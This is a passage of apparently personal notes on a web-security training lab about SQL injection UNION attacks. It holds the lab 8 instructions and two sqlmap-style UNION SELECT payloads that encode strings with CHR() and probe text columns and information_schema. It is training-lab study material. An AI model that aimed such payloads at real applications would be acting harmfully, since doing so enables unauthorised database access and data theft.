 ![](assets/Pasted%20image%2020251010023612.png)
![](assets/Pasted%20image%2020251010023758.png)

Pets' UNION SELECT NULL,(CHR(113)||CHR(120)||CHR(112)||CHR(122)||CHR(113))||(CHR(114)||CHR(78)||CHR(116)||CHR(70)||CHR(105)||CHR(65)||CHR(71)||CHR(86)||CHR(81)||CHR(113)||CHR(101)||CHR(97)||CHR(78)||CHR(104)||CHR(86)||CHR(67)||CHR(87)||CHR(112)||CHR(105)||CHR(73)||CHR(103)||CHR(122)||CHR(102)||CHR(65)||CHR(105)||CHR(78)||CHR(86)||CHR(67)||CHR(85)||CHR(90)||CHR(104)||CHR(103)||CHR(82)||CHR(72)||CHR(105)||CHR(121)||CHR(117)||CHR(107)||CHR(118)||CHR(108))||(CHR(113)||CHR(120)||CHR(106)||CHR(107)||CHR(113)),NULL FROM information_schema.columns WHERE table_name = 'products'-- 0x11

---
---
## 8. Lab: SQL injection UNION attack, finding a column containing text

**Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a Previous Lab. The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

**Solution:**

with SQL map 
![](assets/Pasted%20image%2020251010023250.png)

Gifts' UNION ALL SELECT NULL,(CHR(113)||CHR(113)||CHR(112)||CHR(112)||CHR(113))||(CHR(81)||CHR(110)||CHR(78)||CHR(107)||CHR(78)||CHR(66)||CHR(113)||CHR(105)||CHR(72)||CHR(98)||CHR(115)||CHR(77)||CHR(87)||CHR(122)||CHR(86)||CHR(84)||CHR(98)||CHR(107)||CHR(76)||CHR(87)||CHR(66)||CHR(87)||CHR(111)||CHR(111)||CHR(66)||CHR(71)||CHR(69)||CHR(83)||CHR(84)||CHR(71)||CHR(67)||CHR(83)||CHR(101)||CHR(76)||CHR(112)||CHR(90)||CHR(121)||CHR(110)||CHR(101)||CHR(87))||(CHR(113)||CHR(120)||CHR(98)||CHR(106)||CHR(113)),NULL-- 0x11
